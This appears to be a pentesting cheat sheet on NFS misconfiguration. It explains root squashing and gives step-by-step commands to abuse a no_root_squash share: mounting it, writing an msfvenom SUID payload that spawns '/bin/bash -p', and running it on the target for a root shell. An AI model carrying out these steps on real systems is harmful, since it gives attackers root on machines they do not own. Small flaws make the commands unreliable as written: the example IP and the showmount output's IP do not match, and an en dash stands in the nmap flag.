

# NFS

NFS (Network File System) is a popular distributed file system.NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files. By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.

## Useful Commands

Show the NFS server’s export list:

#### &#x20; `showmount -e [target]`

Similar Nmap script:

#### `nmap –sV –script=nfs-showmount [target]`

Mount an NFS share:

#### `mount -o rw,vers=2 [target]:[share] [local_directory]`

## Root Squashing

Root Squashing is how NFS prevents an obvious privilege escalation. If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group.While this behavior is default, it can be disabled!

## no\_root\_squash

no\_root\_squash is an NFS configuration option which turns root squashing off. When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

Check the contents of /etc/exports for shares with the no\_root\_squash option:

#### `cat /etc/exports`

Confirm that the NFS share is available for remote mounting:

#### `root@W4LK3R:~# showmount -e 192.168.1.25` ` Export list for 192.168.56.102:` ` /tmp *`

Create a mount point on your local machine and mount the /tmp NFS share:

#### `mkdir /tmp/nfs` ` mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs`

Using the root user on your local machine, generate a payload and save it to the mounted share:

#### `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Make sure the file has the SUID bit set, and is executable by everyone:

#### `chmod +xs /tmp/nfs/shell.elf`

On the target machine, execute the file to get a root shell:

#### `/tmp/shell.elf`

